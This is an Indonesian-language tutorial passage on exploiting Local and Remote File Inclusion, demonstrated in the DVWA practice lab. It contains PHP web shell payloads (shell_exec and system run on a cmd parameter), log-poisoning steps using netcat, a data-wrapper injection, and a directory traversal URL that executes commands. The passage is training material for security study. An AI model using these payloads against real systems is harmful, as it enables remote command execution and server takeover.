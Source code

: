 Terdapat beberapa cara untuk melakukan eksploitasi LFI apabila penyerang tidak dapat memasukkan file ke dalam server, beberapa di antaranya adalah:

#### Kontaminasi Log File
1. Connect ke Webserver menggunakan netcat
2. Kirim Payload berikut
```php
<?php echo '<pre>' . shell_exec($_GET['cmd']) . '</pre>';?>
```
3. Execute the log file

#### Menggunakan PHP Wrappers
1. Format input parameter
```php
data:text/plain,<?php echo shell_exec(“${payload}”) ?>
```
2. Ganti <b>${payload}</b> dengan command yang diperlukan

### Remote File Inclusion

Mirip dengan Local File Inclusion, bedanya Remote File Inclusion berarti penyerang dapat membuat website mengeksekusi file yang telah disiapkan oleh penyerang pada server penyerang, sehingga penyerang tidak perlu memasukkan file berbahaya tersebut ke server target.


### Demo Kerentanan File Inclusion
Pada kasus ini, anggap seorang hacker telah berhasil memasukkan file berbahaya kedalam sistem, baik melalui fitur dalam website atau menggunakan cara lain. Script yang dimasukkan oleh si hacker merupakan file bernama **malscript.php** yang berisi kode berikut:

```php
<?php system($_GET['cmd']);?>
```
Kode ini akan melakukan perintah server sesuai dengan masukan yang diberikan pada parameter cmd, berikut step by stepnya:

- Buka DVWA 
- Pilih section file inclusion

   <!-- FILE INCLUSION SECTION IN DVWA IMAGE --!>

- Lihat pada URL
```
http://ip_mesin/dvwa/vulnerabilities/fi/?page=include.php
```

#### LOCAL FILE INCLUSION PAYLOAD
- Dengan memanfaatkan kelemahan Directory traversal, masukkan payload berikut sebagai value dari pada parameter **?page=**
```
../../../../../var/www/dvwa/malscript.php
```
dan tambahkan paramter cmd disebelahnya seperti berikut:
```
&cmd=ls
```
Sehingga pada url menajdi seperti berikut
```
?page=../../../../../var/www/dvwa/malscript.php&cmd=ls
```
- Klik enter
- Maka konten dari file akan muncul seperti di bawah
